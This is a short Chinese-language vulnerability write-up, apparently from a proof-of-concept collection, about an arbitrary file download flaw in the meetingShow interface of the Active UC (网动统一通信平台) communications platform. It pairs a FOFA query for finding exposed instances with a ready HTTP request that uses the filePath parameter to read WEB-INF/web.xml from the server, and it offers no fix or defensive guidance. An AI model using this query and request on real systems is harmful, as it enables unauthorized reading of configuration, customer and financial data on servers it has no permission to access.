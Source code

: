 # 网动统一通信平台meetingShow存在任意文件读取漏洞

# 一、漏洞简介
 网动统一通信平台是一个涵盖了多种通信功能的综合平台，通常包括文字、语音、视频通讯等功能，并且可能提供了一系列的通讯工具和服务。这样的平台通常旨在提升用户的沟通效率和便利性，为用户提供一个统一的通信环境。网动统一通信平台meetingShow接口处存在任意文件下载漏洞，恶意攻击者可能利用该漏洞读取服务器上的敏感文件，例如客户记录、财务数据或源代码，导致数据泄露。  

# 二、影响版本
+ 网动统一通信平台

# 三、资产测绘
+ fofa`title="网动统一通信平台(Active UC)"`
+ 特征

![1715181346183-38fe9fce-95da-4fcc-9444-e758323b5b48.png](./img/rg7PTmSeir6Foadu/1715181346183-38fe9fce-95da-4fcc-9444-e758323b5b48-543498.png)

---

# 四、漏洞复现
```http
GET /acenter/meetingShow!downloadDocument.action?filePath=WEB-INF/web.xml&filename=xxx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1715182117189-1a34bfe4-90d0-470b-bb64-7e14114e7587.png](./img/rg7PTmSeir6Foadu/1715182117189-1a34bfe4-90d0-470b-bb64-7e14114e7587-702187.png)





> 更新: 2024-10-22 09:40:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ey50q344kqgz0zoh>